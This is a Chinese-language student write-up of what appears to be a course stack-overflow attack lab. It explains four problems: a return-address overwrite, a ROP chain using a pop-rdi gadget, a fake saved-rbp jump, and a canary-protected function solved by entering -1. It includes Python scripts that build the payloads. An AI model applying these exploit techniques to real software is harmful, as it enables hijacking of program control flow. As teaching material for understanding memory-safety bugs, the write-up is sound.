



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：先观察main部分，前面都是一些打印什么的，主要的攻击的部分是func函数，下面重点分析func函数。func函数先分配了0x20（32字节）的栈区域来存放内容，缓冲区buffer是从rbp-8开始的，保存的旧rbp存在rbp处，返回地址在rbp+8，我们的目的是把返回地址改到可以输出想要结果的部分，经过检查，应该是func1函数里面。那么我们的payload只需要足够长，把返回地址修改了即可，先填入16字节的内容，然后加上func1的地址就是最终的payload。
- **解决方案**：

```python
import struct

padding = b'A' * 16

# 目标函数 func1 的地址是 0x401216
target_addr = struct.pack('<Q', 0x401216)

payload = padding + target_addr

with open('ans1.txt', 'wb') as f:
    f.write(payload)

```

- **结果**：


### Problem 2:
- **分析**：这一个问题与上一个题类似，也是要从func函数里面调用func2，但是这题的func2里面多加了一个检查，需要rdi的值符合条件（等于0x3f8）才能输出我们要的结果。
在problem2的文件里面找了一下，发现了pop_rdi这个函数，我们把这个函数内部的pop指令的地址记下来，利用它把我们需要的值0x3f8传给rdi，然后我们修改函数返回地址到func2，这样调用func2，rdi就满足条件，攻击成功。所以payload应该也是先用16字节进行填充，然后写入pop %rdi命令的地址并传入参数，接着加上func2的地址。
这里补充一下，这个参数能被pop函数使用是因为当 func 函数执行 ret 时，栈顶的 pop %rdi 地址被弹出并执行，此时 %rsp 指针自动上移 8 字节，指向了我们填入的 0x3f8。紧接着执行 pop %rdi 指令，它会将当前栈顶的数据（即 0x3f8）弹出至 %rdi 寄存器，完成了参数传递。之后 %rsp 继续上移指向 func2 的地址，通过后续的 ret 指令跳转至 func2。这个点也是我觉得这个攻击最巧妙的地方。
- **解决方案**：
```python
import struct

padding = b'A' * 16
pop_addr = 0x4012c7      # pop %rdi; ret的地址
value = 0x3f8           # 要检查的值
func2_addr = 0x401216       # 目标函数


payload = padding
payload += struct.pack('<Q', pop_addr)
payload += struct.pack('<Q', value)
payload += struct.pack('<Q', func2_addr)

with open('ans2.txt', 'wb') as f:
    f.write(payload)

```

- **结果**：



### Problem 3: 
- **分析**：这题前面的分析也和前面类似，注意这里的缓冲区分配变大了，buffer是从-0x20（%rbp）开始的，这里我们也是要让func函数在返回时调用func1。func1前面部分有参数检查，我们这里直接不管了（），返回到40122b的位置，这部分之后的代码是打印结果的。但是这题有一个问题在于，func1函数的写入利用了-0x40(%rbp)这一参数，但是在func函数返回后，rbp的值被修改了，导致这个地址很可能是不合法的，会出现段错误的问题，所以我们要找一个可读写的地址覆盖rbp的值，这里我们找的是bss段，在link部分我们知道这是一块可读写并且比较安全的区域，我们从0x400000的起始地址开始找一下（这里我找的方式比较暴力（），就是从0x405000开始往下找，大概随便改试了10几次，最后试到0x403600这个地址不会发生溢出，就选他了。
所以最后的payload应该是由32个占位符加上新的rbp值以及func1的返回地址构成的。

- **解决方案**：
```python
import struct

padding = b'A' * 32

# 因为 func 结尾有 leave (pop rbp)，这 8 字节会被弹入 %rbp 寄存器
# func1 需要往 rbp-0x40 写数据，所以这里必须填一个可写的安全地址
fake_rbp = struct.pack('<Q', 0x403600)

# 跳过 func1 开头的参数检查，直接跳转到 0x40122b (打印 Flag 的代码段)
target_addr = struct.pack('<Q', 0x40122b)

payload = padding + fake_rbp + target_addr

with open('ans3.txt', 'wb') as f:
    f.write(payload)

```

- **结果**：


### Problem 4: 
- **分析**：这题的func函数里面有金丝雀保护机制，金丝雀就存在rbp-8的位置，我们只要动了它，之后代码检查发现它与原来的值不一样，就会报错，所以我们这题不能简单地直接修改栈里面buffer的内容进行攻击。
不过这题仔细分析func函数就可以发现，func里面就可以实现我们想要的输出结果，func函数里面有一个检查，需要看我们的输入值经过处理后的结果是不是1，如果是1的话，我们就能成功过关。然后看了一下这个函数对输入值的处理，是一个多次循环，循环了0xfffffffe次，每次循环将我们的输入值减去1，也就是说我们输入的数要减去0xfffffffe个1之后为1，那我们的输入值就应该是0xffffffff也就是-1。
然后这题貌似就不用构造payload了，最重要的就是在问我要给多少原石的时候输入-1这个值，这个彩蛋还是很有意思的，我要玩原神！（bushi）


- **解决方案**：payload是填入姓名和是否喜欢ics，然后填上我们计算出的结果-1。

- **结果**：



## 思考与总结

感觉这个lab难度还是比较合适的，比较有趣，可以让我们看到很多平时不会注意到的代码可能被攻击的地方，也为我们之后写安全的代码做了保障。但是感觉这个题量还是比较小了？（不过既然是选做的lab也还比较能理解。


## 参考资料

无